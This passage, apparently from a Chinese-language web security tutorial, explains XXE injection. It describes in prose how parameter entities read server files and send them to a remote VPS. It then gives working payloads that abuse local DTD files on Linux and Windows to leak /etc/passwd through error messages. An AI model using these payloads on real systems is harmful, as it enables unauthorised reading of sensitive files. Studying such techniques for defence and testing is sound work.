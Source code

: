 ![image.png](assets/1700812438-99b02e729a484c6d7cb84b099ee2c0c9.png)

**整个调用过程：**

这种攻击方式关键在于构造合适的 payload，通过连续调用参数实体，将远程服务器上的 test.dtd 文件包含进来，然后利用%file 实体获取服务器上的敏感文件。最后，通过%send 实体将读取到的数据发送到远程 VPS 上。

2、无法引用外部 DTD

当目标服务器和攻击者之间存在防火墙，或者网络访问受到限制时，可能无法直接引用外部的 DTD 文件。在这种情况下，使用本地 DTD 文件是一个很好的替代方案。

要找到本地的 DTD 文件，可以进行枚举文件和目录。

Linux

```php
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

Windows

```php
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
<?xml version="1.0" ?>

<!ENTITY % condition 'aaa)>
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    <!ELEMENT aa (bb'>
%local_dtd;
]>
```